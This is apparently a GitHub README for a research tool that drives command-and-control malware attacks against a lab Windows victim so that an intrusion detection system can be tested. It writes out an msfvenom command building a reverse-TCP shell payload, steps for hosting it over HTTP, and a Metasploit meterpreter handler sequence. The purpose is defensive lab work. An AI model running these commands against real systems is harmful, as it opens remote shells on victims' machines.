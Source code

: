# C2abstraction
C2 abstraction layer that provides high level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important pyton files are 'C2Abstraction' and 'Mouse Script'

Virtual Machines:
Attacker - Kali Linux (each IP is different => Must change line 64 in setup)
Victim - Another virtual machine (in this case using Windows)

Preliminary work:
    - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
    - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


How to track if HTTP commands/connections are going through?
    -You can catch the logs of the HTTP connections in real time by
        * going to /etc
        * then go to /ssh
        * then use 'nano' command to edit the 'sshd_config' file
        * look for the line '#LogLevel INFO'
        * remove the # then replace INFO with 'VERBOSE'
        * now run 'sudo journalctl -f' in the command line to track the logs

How to run the payload on the victim machine?
    - Using SCP we can connect to


COVENANT:
NOTE: What is the difference between covenant and metasploit?
        - Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM
How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




# Citation
    @Unpublished{HungVu_IDS_TESTING_C2,
      author = {Hung Anh Vu},
      title = {{Research Testing Environment}},
      url = {https://github.com/HungAnhVu/C2abstraction},
      version = {1.0.0},
      year = {2023}
    }
